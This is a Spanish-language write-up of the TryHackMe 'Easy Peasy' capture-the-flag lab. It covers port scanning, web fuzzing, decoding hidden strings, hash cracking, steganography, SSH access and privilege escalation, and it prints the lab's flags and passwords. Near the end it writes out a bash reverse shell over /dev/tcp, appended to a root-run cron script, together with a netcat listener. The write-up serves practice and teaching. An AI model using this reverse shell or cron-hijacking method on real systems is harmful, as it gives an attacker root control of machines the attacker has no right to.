# Easy Peasy

## Mapeo de puertos

Ejecutamos un escaneo a todos los puertos con`nmap`sobre la máquina víctima.

```
sudo nmap -sCV -p- 10.10.220.165
```

Visualizamos tres puertos abiertos:
- El puerto 80 del protocolo HTTP con un sitio web nginx.
- El puerto 6498 de SSH.
- El puerto 65524 que es un servidor de Apache por HTTP.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image.png]]

## Explotación web

Para obtener más directorios del sitio web de la máquina, vamos a utilizar`dirbuster`para hacer fuzzing:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-1.png]]

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-2.png]]

Encontramos un directorio llamado`/hidden/`:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-3.png]]

Y también`/hidden/whatever`:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-4.png]]

Mirando el código fuente, descubrimos mensaje codificado en Base64 aparentemente:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-5.png]]

Usamos Cyberchef para decodificarlo y obtenemos la primera flag:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-6.png]]

```
flag{f1rs7_fl4g}
```

También usamos`gobuster`para ver si obtenemos más resultados:

```
gobuster dir -u http://10.10.220.165 -x html,txt,php,js,py -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Hay un`robots.txt`pero no tiene información relevante.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-7.png]]

Accedemos a la página por el puerto 65524 y comprobamos su`robots.txt`:

```
http://10.10.220.165:65524/robots.txt
```

Hay un hash que podemos crackear.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-8.png]]

```
a18672860d0510e5ab6699730763b250
```

Pasamos el hash por`md5hashing`y obtenemos la segunda flag:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-9.png]]

```
flag{1m_s3c0nd_fl4g}
```

La tercera flag la tenemos en el directorio principal del puerto en que está apache:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-10.png]]

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

Inspeccionamos el código fuente también y descubrimos lo siguiente:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-11.png]]

Decodificamos con Cyberchef en Base62:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-12.png]]

Entramos al directorio decodificado:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-13.png]]

Hay un hash oculto.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-14.png]]

Lo crackeamos con John y el`.txt`que nos proporcionan en el reto.

```
john --wordlist=easypeasy_1596838725703.txt --format=gost hash.txt  
```

La contraseña es`mypasswordforthatjob`.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-15.png]]

Usamos`steghide`sobre la imagen de matrix ya que oculta un mensaje:

```
steghide extract -sf binarycodepixabay.jpg
```

La passphrase es la contraseña que obtuvimos antes.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-16.png]]

Analizamos el mensaje obtenido:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-17.png]]

Pasamos el código binario a ASCII

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-18.png]]

```
iconvertedmypasswordtobinary
```
## Escalada de privilegios

Finalmente, podemos entrar por SSH con el usuario y la contraseña obtenidos.

```
ssh boring@10.10.220.165 -p 6498
```

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-19.png]]

Encontramos la flag pero parece que está invertida o algo así.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-20.png]]

Lo decodificamos con el cifrado del Cesar y obtenemos la flag.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-21.png]]

```
flag{n0wits33msn0rm4l}
```

Inspeccionamos los jobs de crontab y descubrimos el siguiente script programado:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-22.png]]

Nos desplazamos a la localización y lo vemos:

```
cd /var/www/
```

Solo puede ser ejecutado como root.

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-23.png]]

 Abrimos un puerto en escucha con`netcat`.
 
```
nc -nlvp 9001
```

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-24.png]]

Introducimos la siguiente reverse shell:

```
echo "bash -i >& /dev/tcp/10.10.220.165/9001 0>&1" >> .mysecretcronjob.sh
```

Obtenemos la flag del root:

![[Hacking_Etico/TryHackMe_WriteUps/Easy_Peasy/images/image-25.png]]

```
flag{63a9f0ea7bb98050796b649e85481845}
```


















